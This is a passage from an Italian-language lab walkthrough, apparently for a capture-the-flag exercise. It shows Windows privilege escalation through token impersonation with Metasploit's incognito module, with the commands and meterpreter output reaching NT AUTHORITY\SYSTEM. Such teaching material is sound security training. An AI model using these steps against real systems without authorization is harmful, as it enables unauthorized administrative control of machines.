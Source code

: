 Puoi vedere che sono abilitati due privilegi (SeDebugPrivilege, SeImpersonatePrivilege). Usiamo il modulo in incognito che ci consentirà di sfruttare questa vulnerabilità.

Inserisci: _load incognito_ per caricare il modulo incognito in Metasploit. Nota che potresti dover usare il comando _use incognito_ se il comando precedente non funziona. Inoltre, assicurati che Metasploit sia aggiornato.

```
load incognito
```

```
use incognito
```

Per controllare quali token sono disponibili, inserisci _list_tokens -g_ . Possiamo vedere che il token _BUILTIN\Administrators_ è disponibile.

Utilizzare il  comando _impersonate_token "BUILTIN\Administrators"_ per impersonare il token degli amministratori. Qual è l'output quando si esegue il comando _getuid_ ?

```
list_tokens -g
```

```
Delegation Tokens Available
========================================
\
BUILTIN\Administrators
BUILTIN\Users
NT AUTHORITY\Authenticated Users
NT AUTHORITY\NTLM Authentication

```

```
impersonate_token "BUILTIN\Administrators"
```
```
meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM

```
Qual è l'output quando si esegue il comando _getuid_ ?
```
getuid
```
```
Server username: NT AUTHORITY\SYSTEM
```

Anche se si dispone di un token con privilegi più elevati, è possibile che non si disponga delle autorizzazioni di un utente privilegiato (ciò è dovuto al modo in cui Windows gestisce le autorizzazioni: utilizza il token primario del processo e non il token impersonato per determinare cosa il processo può o non può fare).
